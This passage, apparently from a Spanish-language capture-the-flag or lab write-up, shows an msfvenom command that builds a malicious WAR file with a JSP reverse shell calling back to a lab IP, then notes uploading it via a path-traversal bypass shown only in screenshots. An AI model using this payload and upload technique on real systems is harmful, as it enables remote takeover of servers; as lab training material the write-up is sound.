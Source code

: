 Generamos el .war malicioso con `msfvenom`
```console
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.66 LPORT=443 -f war -o revshell.war
Payload size: 1104 bytes
Final size of war file: 1104 bytes
Saved as: revshell.war
```

Al intentar subir el .war vemos lo siguiente.
![Write-up Image](images/Screenshot_15.png)

Probé con esta manera para hacer el Path Traversal.
![Write-up Image](images/Screenshot_16.png)

Y de esta manera si que podemos subir el .war malicioso.
![Write-up Image](images/Screenshot_17.png)

